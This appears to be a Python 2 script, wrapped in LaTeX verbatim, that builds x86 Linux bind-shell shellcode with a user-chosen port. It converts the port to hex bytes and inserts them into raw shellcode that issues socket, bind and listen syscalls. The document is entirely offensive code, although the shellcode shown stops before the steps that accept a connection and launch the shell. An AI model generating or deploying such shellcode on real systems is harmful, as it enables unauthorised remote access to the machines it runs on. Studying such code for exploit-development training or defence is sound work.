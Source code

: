 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
#!/usr/bin/python

import sys

if len(sys.argv) != 2:
  print "Fail!"

port_number     = int(sys.argv[1])
bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
filtered        = [b for b in bts if b > 0]
formatted       = ["\\x" + format(b, 'x') for b in filtered]
joined          = "".join(formatted)

shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x02\\x31\\xc9"
shellcode+="\\x51\\x66\\x68" + joined + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57"
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x04\\x31\\xc9\\x51\\x57"

\end{verbatim}
\end{document}
